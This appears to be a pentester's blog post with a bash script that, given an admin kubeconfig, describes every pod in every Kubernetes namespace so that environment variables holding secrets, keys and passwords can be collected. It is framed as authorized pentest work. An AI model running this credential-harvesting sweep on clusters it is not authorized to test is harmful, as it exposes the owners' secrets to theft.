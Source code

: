```yaml
---
layout: post
title: "Describing All Kubernetes Pods of All Namespaces for Fun and Profit"
author: "Joshua Rogers"
categories: security
---
```


In a recent pentest, I was able to gain access to the admin kubernetes kubectl key.

Once I had this access, I wanted to iterate through each of the k8s namespaces, and describe each of the pods in each of the namespaces.
Once every pod has been described, you can take a look at all of the environmental values, which generally contain secrets, keys, and passwords.

When running the script, it is assumed `KUBECONFIG` is already exported to the location of the kube_control file.


```bash
#!/bin/bash

# Get the list of namespaces using kubectl
namespaces=$(kubectl get namespaces -o custom-columns="NAME:.metadata.name" --no-headers)

describe_and_print() {
  kubectl describe pod $2 > descriptions/$1/$2
  echo "Described '$1/$2'"
}
export -f describe_and_print

# Loop through each namespace
for namespace in $namespaces; do
  mkdir -p descriptions/$namespace
  # Use a namespace
  kubectl config set-context --current --namespace="$namespace"
  echo "Switched to namespace '$namespace'"
  # Get pods in the current namespace
  pods=$(kubectl get pods -o custom-columns="NAME:.metadata.name" --no-headers)
  for pod in $pods; do
    echo describe_and_print "$namespace" "$pod"
  done | parallel --gnu -j20 --delay 0.1 --line-buffer
done
```
